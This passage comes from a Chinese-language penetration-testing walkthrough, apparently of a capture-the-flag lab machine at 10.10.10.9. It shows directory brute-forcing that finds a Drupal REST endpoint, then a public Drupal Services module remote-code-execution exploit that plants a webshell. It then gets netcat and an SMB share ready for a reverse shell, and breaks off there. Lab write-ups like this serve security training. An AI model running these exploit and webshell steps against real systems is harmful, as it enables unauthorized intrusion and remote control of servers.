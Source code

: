 可以尝试用个新的目录扫描工具

```bash
└─# apt install feroxbuster 
```

```bash
└─# gobuster dir -u http://10.10.10.9 -w dic -x php,txt,html,js,php.bak,txt.bak,html.bak,json,git,git.bak  
/rest                 (Status: 200) [Size: 62]
```

得到 rest_point 的路径为 /rest， 于是继续修改利用脚本，再次尝试利用

<img src=".\图片\Snipaste_2023-08-31_15-42-32.png" alt="Snipaste_2023-08-31_15-42-32" style="zoom:80%;" />

```bash
└─# php 41564.php                            
# Exploit Title: Drupal 7.x Services Module Remote Code Execution
# Vendor Homepage: https://www.drupal.org/project/services
# Exploit Author: Charles FOL
# Contact: https://twitter.com/ambionics
# Website: https://www.ambionics.io/blog/drupal-services-module-rce


#!/usr/bin/php
Stored session information in session.json
Stored user information in user.json
Cache contains 7 entries
File written: http://10.10.10.9/zf1yolo.php
```

于是，看看 webshell，可以执行命令，于是反弹shell

以下是新方法，注意：

下载nc到kali

```bash
└─# wget https://github.com/vinsworldcom/NetCat64/releases/download/1.11.6.4/nc64.exe   
```

kali**开启smb共享**

```bash
└─# locate smbserver
└─# python /usr/share/doc/python3-impacket/examples/smbserver.py share .
```
